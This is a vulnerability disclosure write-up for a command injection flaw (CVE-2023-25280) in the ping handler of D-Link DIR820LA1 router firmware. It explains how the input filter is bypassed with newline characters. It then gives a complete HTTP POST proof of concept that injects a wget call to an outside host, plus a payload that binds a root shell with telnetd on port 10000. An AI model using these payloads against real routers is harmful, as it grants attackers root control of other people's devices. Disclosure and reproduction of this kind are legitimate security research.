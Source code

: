 # D-link DIR820LA1_FW105B03 Command injection vulnerability

A command injection vulnerability exists in pingV4Msg of component "/ping.ccp" of D-Link DIR820LA1_FW105B03, allowing an attacker to elevate privileges to root via a crafted payload.

## Overview

- Manufacturer's website information：https://www.dlink.com/
- Firmware download address ：http://www.dlinktw.com.tw/techsupport/download.ashx?file=2663

## 1. Affected version

DIR820LA1_FW105B03

## Vulnerability details

The file directory where the vulnerability is located:`/sbin/ncc2`

The `sub_49EDF8` function obtains the content of the variable `ping_addr`  from the request of `/ping.ccp`, and splicing the parameters of the system causes the command to be executed.

![vuln1](vuln1.png)

The ccp_ping function references the vulnerable `sub_49EDF8` function when the ccp_act parameter is set to pingV4Msg.

![vuln2](vuln2.png)

Command execution defense bypass. The function `hasInjectionString` filters the written instructions, but it does not filter `%0a`,`$` and other symbols, resulting in bypass. See poc for specific methods.

![vuln3](vuln3.png)

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the FirmAE simulation firmware DIR820LA1_FW105B03.bin

​	<img src="firmAE.png" alt="firmAE" style="zoom:70%;" /><img src="FirmAE2.png" alt="FirmAE2" style="zoom:70%;" />

2. Attack with the following POC attacks

​	**Attack Vector1**：`ccp_act=pingV4Msg&ping_addr=%0awget http://192.168.0.2%0a`

- First use `sudo python3 -m http.server80` to build a web server locally, and you will see the echo

- Run poc

```xml
POST /ping.ccp HTTP/1.1
Host: 192.168.0.1
Content-Length: 760
Accept: application/xml, text/xml, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Origin: http://192.168.0.1
Referer: http://192.168.0.1/lan.asp
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: hasLogin=1
Connection: close

ccp_act=pingV4Msg&ping_addr=%0awget http://192.168.0.2%0a
```

![poc](poc.png)

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell，Such as`ping_addr==%0atelnetd -l /bin/sh -p 10000 -b 0.0.0.0%0a`

## Disclosure

- Feb 7, 2023:Public disclosure

- Mar 7, 2023:Assign CVE number CVE-2023-25280